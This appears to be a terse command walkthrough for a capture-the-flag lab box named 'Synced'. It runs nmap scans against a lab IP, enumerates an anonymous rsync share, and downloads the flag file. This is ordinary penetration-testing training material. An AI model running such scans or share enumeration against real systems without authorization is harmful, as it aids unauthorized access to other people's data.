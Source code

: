 ping 10.129.228.37

echo "10.129.228.37 synced.htb" >> /etc/hosts

nmap synced.htb
nmap -p- --min-rate 10000 synced.htb
nmap -sCV synced.htb

man rsync

rsync --list-only rsync://synced.htb
rsync --list-only rsync://synced.htb/public

mkdir Synced
rsync -v rsync://synced.htb/public/flag.txt Synced
cat Synced/flag.txt
get flag